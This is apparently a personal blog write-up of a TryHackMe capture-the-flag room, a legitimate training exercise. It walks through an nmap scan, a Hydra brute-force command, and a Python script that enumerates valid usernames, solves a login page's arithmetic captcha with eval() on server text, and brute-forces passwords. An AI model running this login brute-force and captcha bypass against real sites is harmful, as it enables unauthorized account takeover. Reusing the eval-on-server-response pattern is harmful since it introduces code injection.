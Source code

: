 ```yaml
---
layout: post
title: "Capture"
date: 2023-06-17 
categories: ["Hands-on", "TryHackMe"]
tags: "Python"
---
```


# Capture
> https://tryhackme.com/room/capture

I downloaded the zip file that contains the login credientials that I can use to brute force into the login form!

## Nmap
```bash
nmap -sS -Pn [ip]

PORT     STATE SERVICE VERSION
80/tcp   open  http
```

I opened the website to come to face with a login page. I attempted to use default usernames and passwords, but it did not work. I noticed that it does say if the username exists or not!

## Hydra

```bash
hydra -L usernames.txt -P passwords.txt "http-post-form://10.10.224.246/login:username=^USER^&password=^PASS^:Error"
```

I get the 'Too many bad login attempts' error message with a mathematical Captcha. This problem can be solved by writting a script. 

## Script
For writing the script I used the below walkthrough to guide me in writing and understanding the process:
- [l1asis](https://github.com/l1asis/thm-writeups/blob/main/Capture/Capture.md)
- [BabdCatha](https://github.com/BabdCatha/Capture/blob/main/capture_username.py)
- [Anthony J. Saab](https://blog.anthonyjsaab.com/writeup-for-tryhackmes-capture-room)


Things I kept in mind while trying to build the script in Python:
1. Finding the captcha [regex will be used]
2. Solving the captcha [using eval function in Python]

### Reading the files
First, the script should read the files to retrieve the usernames and passwords. When using the read function, it's important to add the 'splitlines'. 

```python
## opening the username.txt to get the users
with open('usernames.txt', 'r') as file:
    usernames = file.read().splitlines()

## opening the passwords.txt to get the password
with open('passwords.txt', 'r') as file:
    passwords = file.read().splitlines()
```


### Requesting 
I made the function 'send_request' to send a request to the server for authentication with the username, password, and captcha as None. Captcha is none cause by default there is no captcha in the first few attempts then it starts asking for it. If I do get the captcha then I add it as an argument in the request.

```python
def send_request(username, password, captcha=None):
    data = {
    "username":username,
    "password":password
    }
    # if I get captcha
    if captcha:
        data.update({"captcha":captcha})

    response = requests.post(url=url, data=data)
    return response
```
### Solving Captcha function
This part solves my first concern the regex expression is used to find the captcha string in the HTML server response, and the output used in the solve captcha function. The function solve_captcha takes in the response, then finds the captcha, and returns the solved answer to be passed into the request.

```python
# Regular expression to find captcha string in the html server response
regex = re.compile(r"(\d+\s[+*/-]\s\d+)\s\=\s\?")

# solving captcha using eval
def solve_captcha(response):
    captcha = re.findall(regex, response.text)[0]
    return eval(captcha)
```

### Checking if user already exists
I created the get_user function to get the existing user before starting brute-forcing the password, this helps by not wasting time. First, I sent a request with each user and password as "None" since I only care about the username. I call the solve_captcha function and pass the response as an argument. After solving the captcha I send another request with the same user in the loop and check if the user is valid. If the username exists it will return to be used for the next step finding the password.

```python
def get_user():
    for user in usernames:
        response = send_request(user, "None")
        captcha = str(solve_captcha(response))
        data = {
        "username":user,
        "password":'test',
        "captcha":captcha
        }
        response = requests.post(url=url, data=data)
        valid = not re.search(r'The user (.*?) does not exist', str(response.content))
        if valid:
            print(f"[+] Found username : {user}")
            return user
```

### Finding the password!
The Attack function starts by calling the get_user function After I pass the user as an argument for the send_request function. After solving the captcha I send another request with the valid user but with a different password in a loop till the correct password is found!


```python
def attack():
    user = get_user()
    response = send_request(user, "None")
    captcha = str(solve_captcha(response))
    for password in passwords:
        response = send_request(user, password, captcha)
        valid = not re.search(r'Invalid password for user', str(response.content))
        if valid:
            print(f"[+] Found username : {user}")

        # give the previous captcha
        if not "Invalid password" in response.text:
            print(f"[+] Success! Username:{user} Password:{password}")
        # but what if its error? means captcha not working !
        else:
            captcha = solve_captcha(response)
```

## Final words
This was annoying to write especially since I don't fully get the Regular expression module is confusing. Using the search function solved the issue where if does not exist in the content brute force password does not recognize the valid username. The full code can be found in my [gitbook](https://atomic-5.gitbook.io/atoms-handbook/pylix/brute-forcing-login-with-mathematical-captcha)
